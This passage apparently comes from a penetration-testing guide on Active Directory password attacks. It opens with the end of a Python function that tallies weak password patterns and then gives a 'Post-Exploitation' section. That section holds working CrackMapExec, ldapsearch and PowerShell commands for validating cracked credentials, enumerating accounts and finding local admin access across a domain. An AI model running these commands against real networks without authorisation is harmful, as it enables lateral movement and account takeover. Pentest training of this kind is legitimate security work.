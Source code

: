 ```python
            patterns['year_suffix'] += 1
        if password.endswith('!'):
            patterns['exclamation'] += 1
        if re.search(r'\d+$', password):
            patterns['number_suffix'] += 1
        if re.search(r'(spring|summer|fall|winter)', password.lower()):
            patterns['season_year'] += 1
        if password.lower().startswith('welcome'):
            patterns['welcome_password'] += 1
    
    return patterns
```

---

## 8. Post-Exploitation Considerations

### Credential Validation

#### Testing Cracked Credentials
```bash
# CrackMapExec validation
crackmapexec smb dc.company.com -u username -p password

# WinRM access testing
crackmapexec winrm dc.company.com -u username -p password

# LDAP authentication test
ldapsearch -x -H ldap://dc.company.com -D "username@company.com" -W -b "DC=company,DC=com" "(objectclass=user)"
```

#### Account Enumeration
```powershell
# Check account properties
Get-ADUser username -Properties *

# Check group memberships
Get-ADPrincipalGroupMembership username

# Check login history
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4624} | Where-Object {$_.Message -like "*$username*"}
```

### Privilege Assessment

#### Local Admin Rights
```bash
# Check local admin access across domain
crackmapexec smb subnet.txt -u username -p password --local-auth

# PowerShell local admin check
Find-LocalAdminAccess -Username username
```
